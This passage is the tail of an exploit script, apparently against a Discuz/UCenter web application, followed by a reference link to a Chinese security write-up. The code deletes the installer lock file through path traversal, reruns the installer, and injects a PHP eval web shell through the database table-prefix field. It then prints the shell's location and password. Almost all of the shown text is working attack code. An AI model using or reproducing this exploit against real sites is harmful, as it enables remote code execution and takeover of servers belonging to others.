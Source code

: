         table_prefix = "x');@eval($_POST[{}]);('".format(shell_password)
        data = {
            'step': 3,
            'install_ucenter': 'yes',
            'dbinfo[dbhost]': db_host,
            'dbinfo[dbname]': db_name,
            'dbinfo[dbuser]': db_user,
            'dbinfo[dbpw]': db_pw,
            'dbinfo[tablepre]': table_prefix,
            'dbinfo[adminemail]': 'admin@admin.com',
            'admininfo[username]': 'admin',
            'admininfo[password]': 'admin',
            'admininfo[password2]': 'admin',
            'admininfo[email]': 'admin@admin.com',
        }
        r = sess.post(install_url, data=data)
        if '建立数据表 CREATE TABLE' not in r.text:
            print('write shell failed')
            return False
        print('shell: {}/config/config_ucenter.php'.format(target))
        print('password: {}'.format(shell_password))


    if __name__ == '__main__':
        login()
        form_hash = get_form_hash()
        if form_hash:
            delete(form_hash, '../../../data/install.lock')
            getshell()
        else:
            print('failed')

参考链接
--------

> https://xz.aliyun.com/t/7492\#toc-7
